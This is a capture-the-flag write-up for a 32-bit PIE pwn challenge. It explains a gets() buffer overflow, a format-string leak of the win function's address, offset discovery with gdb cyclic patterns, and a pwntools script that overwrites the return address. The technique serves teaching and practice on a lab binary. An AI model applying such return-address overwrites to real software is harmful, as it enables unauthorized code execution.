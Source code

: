 # Writeup
## NRF24 CTF
## Challenge Name : New Start

- Lets checksec the file first.

![image](https://github.com/user-attachments/assets/bbd3daa9-c779-4335-8209-30b9f39d6d64)

### Analysis

We have PIE enabled here PIE stands for Position Independent Executable,
which means that every time you run the file it gets loaded into a different memory address. 
This means you cannot hardcode values such as function addresses and gadget locations without finding out where they are.

After running the file sevarel time we got some leaks and everytime its different so you know now why these are different .

![Screenshot from 2024-10-23 21-34-20](https://github.com/user-attachments/assets/1730cf7f-3ab9-4c9c-845a-fe2bf4ec1b10)


Luckily, this does not mean it's impossible to exploit. PIE executables are based around relative rather than absolute addresses, meaning that while the locations in memory are fairly random the offsets between different parts of the binary remain constant. For example, if you know that the function main is located 0x128 bytes in memory after the base address of the binary, and you somehow find the location of main, you can simply subtract 0x128 from this to get the base address and from the addresses of everything else.


### First thing first Lets check in Ghidra :


![image](https://github.com/user-attachments/assets/87eb574d-a0a7-44b7-8167-e73c87d1c7a3)

There are 2 vulnersbilities :

1. Buffer Overflow 
2. Format String

## 1. Buffer Overflow Vulnerability

The buffer overflow vulnerability in the provided C code snippet arises from the use of the `gets` function, which does not perform any bounds checking on user input. Let's analyze this in detail.

### Code Context

The relevant part of the code is:

```c
char local_28[32];
gets(local_28);
```

- `local_28` is defined as an array of 32 characters. This means it can store up to 31 characters plus a null terminator (`\0`).

- The `gets` function reads a line of input from standard input (stdin) and stores it in the buffer `local_28`.

- **Critical Flaw**: `gets` does not check the length of the input. If a user inputs more than 31 characters, it will overflow the buffer.

run ```man gets```

![image](https://github.com/user-attachments/assets/44204c32-5e3a-4f2c-806d-67f3635c3eed)


## 2. Format String

The string ```"I'm a newbie in CTF, and this is my first PWN challenge. What am I getting myself into: %p\n"``` serves as the format string.
The **%p** format specifier within this string is specifically designed to print a pointer value (an address in memory).
In our case its leaking the **win** functions adress

so now you know u r getting the win,s adress

![image](https://github.com/user-attachments/assets/9ef4c224-e2c2-41f9-998a-e58fe9c80430)






**SO how its going to help us ?**

Ans : First we will overflow that stack and put the adress of the win function , it will popout as a flag . :)



- Lets Break it down :


![image](https://github.com/user-attachments/assets/4ec00086-6450-4ee6-80b5-4798a74ab285)

- Its a 32-bit LSB pie executable file .

#### Memory Layout in 32-bit Architecture
In a 32-bit system, pointers and addresses are 4 bytes long. The memory layout of a stack frame typically looks like this:
```
+---------------------+
|  Return Address     |  <- 4 bytes
+---------------------+
|  Saved Base Pointer  |  <- 4 bytes
+---------------------+
|  Local Variables     |  (variable size)
+---------------------+
|  Buffer              |  (buffer size, e.g., 32 bytes)
+---------------------+

```

Here we have to over flow all these so that we can put our leaked win functions address.
```
User  Input: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" (40 bytes)

Stack Before Overflow:
+---------------------+
|  Return Address     |  <- Original return address 
+---------------------+
|  Saved Base Pointer  |  <- Original base pointer
+---------------------+
|  Local Variables     |  <- Local variables
+---------------------+
|  Buffer              |  <- 32 bytes for user input
+---------------------+

Stack After Overflow:
+---------------------+
|  Overwritten Address |  <- New return address (win)
+---------------------+
|  Overwritten Base Pointer  |
+---------------------+
|  Local Variables     |  <- Potentially corrupted
+---------------------+
|  Buffer              |  <- Filled with "AAAAAAAA..."
+---------------------+

```


- Now You know what to do right?

- lets use another ezz method to find the overflowing value using **gdb**

- create cyclic patterns

![image](https://github.com/user-attachments/assets/7fc990c7-63f8-4543-8a96-c421fd06e96c)

- run and input the created pateerns 

![image](https://github.com/user-attachments/assets/c83c1a06-8c9d-4957-8a31-ce793a6345cc)

- find the offset value from EIP

![image](https://github.com/user-attachments/assets/16124415-3629-4efa-91b1-7b67032a5df7)



#### Its time for scripting :

for normal return to win pwn u can easily  get the flag using this type script 

```py
from pwn import *

elf = ELF('basic')
io = process('./basic')

payload = cyclic(40)+ pack(win_address)  

io.sendline(payload)
io.interactive()
```
But as we knw the adress of win is not fixed so we have to grep the win adress as well we have to overflow and put the adress in 1 run.

so the final script :

```py
from pwn import *

elf = ELF('basic')
io = process('./basic')

data = io.recvline()
data_str = data.decode('utf-8')  # Decode the bytes object to a string
leaked_address = int(data_str.split(':')[1].strip(), 16)   # received data to extract the leaked address

payload = cyclic(40)+ pack(leaked_address)   #info address win 

io.sendline(payload)
io.interactive()
```

![image](https://github.com/user-attachments/assets/de41ffad-5c11-4161-a429-e566b4efe458)

